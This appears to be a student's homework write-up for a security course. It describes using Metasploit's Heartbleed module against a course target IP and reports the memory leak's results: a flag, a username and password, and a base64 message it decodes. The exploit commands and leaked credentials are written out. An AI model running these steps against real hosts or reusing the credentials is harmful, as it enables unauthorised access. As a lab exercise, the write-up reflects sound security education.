 <b>I pledge on my honor that I have not given or received any unauthorized assistance on this homework or assignment. -Jacob Elspas</b>

Homework #4

Part 1: I started off by opening a Bash Terminal and making a metasploit container using the following command 
``` nc 159.89.233.47 1337``` and then running ```msfconsole```.
The I ran ```search heartbleed``` to find the path for the heartbleed attack, and then selected it with ``` use auxiliary/scanner/ssl/openssl_heartbleed```.
Next, I set the parameters for the exploit and subsequently ran it with the following commands:
``` 
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```
This ran the exploit on the IP address 165.227.204.80, which is the IP address of the website www.briong.com. I found this by using a website where you give it a domain name and it returns it’s IP address: 

![](/img/briong-IP.PNG)

After the execution of heartbleed, I looked through the output that was returned and I found the flag, as well as a username and a password:

* username=mnthomp22
* password=pass1234
* flag=CMSC389R-{h3art_bl33d}

Lastly, I also found an easter egg in the same line : easteregg=V0FJVCBUSElTIElTTidUIEVOQ1JZUFRJT04/Pw0KQ01TQzM4OVIte2Jhc2U2NF9pc19zdGlsbF91c2VkX2Zvcl9jcnlwdDB9!

After receiving a hint from my instructor, I learned that it was encoded in Base 64. After using an online decrypter it decrypted to the following message: 

WAIT THIS ISN'T ENCRYPTION??
CMSC389R-{base64_is_still_used_for_crypt0}

![](/img/bash-flag.PNG)
 - - -
Part 2: 
